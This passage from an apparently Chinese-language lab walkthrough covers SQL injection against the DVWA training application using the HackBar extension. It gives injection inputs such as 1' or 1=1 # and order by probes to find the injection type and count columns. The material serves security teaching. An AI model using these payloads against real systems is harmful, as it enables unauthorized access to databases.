 ```抓包更改参数id为1′ or 1=1 # 报错： #是注释作用```




### 方法二：利用HackBar

浏览器安装HackBar

```启动hackbar测试，得到返回的页面如下：```

```
id=3&Submit=Submit
```

![24](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103838.png)



**1.判断是否存在注入，注入是字符型还是数字型**

```
id=1 or 1=1&Submit=Submit
```

![26](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103839.png)

```
id=1' or 1=1 &Submit=Submit
```

![27](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103842.png)





> 说明存在数字型注入。



**2.猜解SQL查询语句中的字段数**

```
id=1 order by 2 &Submit=Submit
```

![28](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103850.png)



```
id=1 order by 3&Submit=Submit
```

![29](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103854.png)



> 说明只有两个字段

```